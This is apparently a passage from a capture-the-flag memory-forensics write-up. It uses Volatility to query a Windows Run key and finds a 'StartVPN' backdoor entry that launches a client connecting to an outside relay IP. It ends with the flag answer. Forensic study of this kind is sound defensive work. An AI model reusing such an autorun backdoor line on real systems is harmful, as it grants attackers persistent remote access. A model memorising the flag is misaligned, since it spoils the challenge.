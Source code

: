 ```
0xd40caab52000  \??\C:\Users\dadmin\AppData\Local\Packages\Microsoft.Windows.Cortana_cw5n1h2txyewy\Settings\settings.dat        Disabled
0xd40caeea4000  \??\C:\Users\admin\ntuser.dat   Disabled
0xd40cae6f5000  \??\C:\Users\admin\AppData\Local\Microsoft\Windows\UsrClass.dat Disabled
0xd40cae3f7000  \SystemRoot\System32\config\DRIVERS     Disabled
```
So our next volatility command looks like:
```
.local/bin/vol -f "/mnt/f/ACSC/ACSC_IR_Challenge_2021/artefacts/workstation1.alien.local-memory/memory.raw" printkey --offset 0xd40ca703d000 --key "Microsoft\Windows\CurrentVersion\Run"
```
with the following output:
```
Volatility 3 Framework 2.0.1
Progress:  100.00               PDB scanning finished
Last Write Time Hive Offset     Type    Key     Name    Data    Volatile

2021-04-06 01:01:27.000000      0xd40ca703d000  REG_EXPAND_SZ   \SystemRoot\System32\Config\SOFTWARE\Microsoft\Windows\CurrentVersion\Run       SecurityHealth  "%windir%\system32\SecurityHealthSystray.exe"   False
2021-04-06 01:01:27.000000      0xd40ca703d000  REG_SZ  \SystemRoot\System32\Config\SOFTWARE\Microsoft\Windows\CurrentVersion\Run       StartVPN        "C:\Users\Public\PSclient.exe -autorestart -relayserver 13.54.35.87:5555"        False
```

We can see within that out put the key value that matches our backdoor cmdline. The key name is StartVPN.

<h5>Flag: StartVPN</h5>